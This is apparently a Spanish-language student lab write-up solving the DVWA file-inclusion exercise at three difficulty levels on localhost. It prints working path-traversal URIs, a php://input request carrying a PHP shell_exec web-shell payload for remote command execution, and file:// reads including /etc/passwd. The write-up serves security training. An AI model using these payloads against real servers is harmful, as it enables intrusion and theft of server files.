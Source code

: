 # LFI

Local File Inclusion (LFI) es una vulnerabilidad que permite a un atacante leer archivos arbitrarios en el servidor. Esto puede ser utilizado para leer archivos sensibles como `config.php` o para leer el código fuente de la aplicación.

## Bajo

Sabiendo que el archivo `fi.php` existe, podemos intentar leerlo con la siguiente URI:
```
http://localhost/DVWA/vulnerabilities/fi/?page=../../hackable/flags/fi.php
```

![Path Traversal](https://github.com/Hec7or-Uni/seginf-pr-5/blob/main/FI/assets/primerPaso.png)
Como se puede observar en la imágen, el archivo `fi.php` es leído y mostrado en la página aunque no hemos conseguido leer las 5 citas que contiene.

Para intetar leer el archivo completo, podemos intentar ejecutar commandos en el servidor, para ello nos ayudaremos de Burp Suite, que nos permitirá modificar la petición que se envía al servidor.

Como primera prueba realizamos una petición GET a la URI para obtener información sobre el servidor:

> **Nota:** Burp Suite debe tener la opcion `Intercept is on` activada para poder modificar las peticiones.

```
http://localhost/DVWA/vulnerabilities/fi/?page=php://input&cmd=id
```

una vez interceptada la petición, podemos modificarla para que se envíe un comando al servidor, para ello añadimmos el siguiente comando al final de la petición y a continuación pulsamos `Forward`:

```php
<?php echo shell_exec($_GET['cmd']); ?>
```

![intercept](https://github.com/Hec7or-Uni/seginf-pr-5/blob/main/FI/assets/intercept.png)

como podemos observar en la imágen, el servidor nos devuelve la información del usuario que está ejecutando el servidor web.

![forward](https://github.com/Hec7or-Uni/seginf-pr-5/blob/main/FI/assets/forward.png)

Una vez comprobado podemos ejecutar comandos en el servidor, podemos intentar leer el archivo `fi.php` de la misma manera:

```
http://localhost/DVWA/vulnerabilities/fi/?page=php://input&cmd=cat%20/var/www/html/DVWA/hackable/flags/fi.php
```

![challenge](https://github.com/Hec7or-Uni/seginf-pr-5/blob/main/FI/assets/challenge.png)

## Medio

Realizando la misma prueba que en el nivel bajo con la URI que conseguia mostrar el contenido del archivo `fi.php`.

```
http://localhost/DVWA/vulnerabilities/fi/?page=php://input&cmd=cat%20/var/www/html/DVWA/hackable/flags/fi.php
```    

Al igual que antes, añadimos la siguiente linea código al final de la petición, de tal manera que ejecute el comando `cat` para leer el archivo `fi.php` y lo muestre en la página.

```php
<?php echo shell_exec($_GET['cmd']); ?>
```

![lfi-m](https://github.com/Hec7or-Uni/seginf-pr-5/blob/main/FI/assets/lfi-m.png)

Una vez modificada la petición, pulsamos `Forward` para enviarla al servidor y obtener el contenido del archivo `fi.php`.

![challenge-2](https://github.com/Hec7or-Uni/seginf-pr-5/blob/main/FI/assets/challenge-2.png)

## Alto

Al contrario que en los niveles anteriores, en este nivel no podemos modificar la petición que se envía al servidor para obtener ejecución remota de comandos, por lo que tendremos que encontrar otra forma de leer el archivo `fi.php`.

Para comprobar que no podemos modificar la petición, se han realizado distintas pruebas sobre la URI para intentar bypassar el filtro de entrada de datos, pero ninguna de ellas ha funcionado.

```
...?page=php://input&cmd=id
...?page=filephp://input&cmd=id
...?page=file php://input&cmd=id
...?page=file:///etc/passwd&php://input&cmd=id
```

Lo máximo que se ha posido obtener ha sido gracias al wrapper `file://`.

```
http://localhost/DVWA/vulnerabilities/fi/?page=file:///var/www/html/DVWA/hackable/flags/fi.php
```

![challenge-3](https://github.com/Hec7or-Uni/seginf-pr-5/blob/main/FI/assets/challenge-3.png)
